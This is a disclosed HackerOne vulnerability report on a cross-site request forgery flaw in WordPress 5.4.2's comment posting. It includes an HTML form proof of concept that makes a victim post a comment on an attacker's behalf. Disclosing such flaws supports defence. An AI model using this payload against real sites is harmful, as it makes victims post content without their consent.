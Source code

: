 # CSRF on comment post

## Report Details
- **Report ID**: 914232
- **URL**: https://hackerone.com/reports/914232
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-02T17:11:35.356Z
- **Disclosed**: 2020-07-16T11:14:43.361Z

## Reporter
- **Username**: lamscun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Hi Wordpress,

I just found an CSRF on comment post. It allow attacker make victim comments on a post.

## Steps To Reproduce:
Attacker send to victim a link with content below:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wordpress-5.4.2/wordpress/wp-comments-post.php" method="POST">
      <input type="hidden" name="comment" value="csrf&#95;comment" />
      <input type="hidden" name="submit" value="Post&#32;Comment" />
      <input type="hidden" name="comment&#95;post&#95;ID" value="29" />
      <input type="hidden" name="comment&#95;parent" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

Video poc: {F891759}

## Impact

Attacker make victim comments on a post.

## Attachments
- comment_csrf.wmv
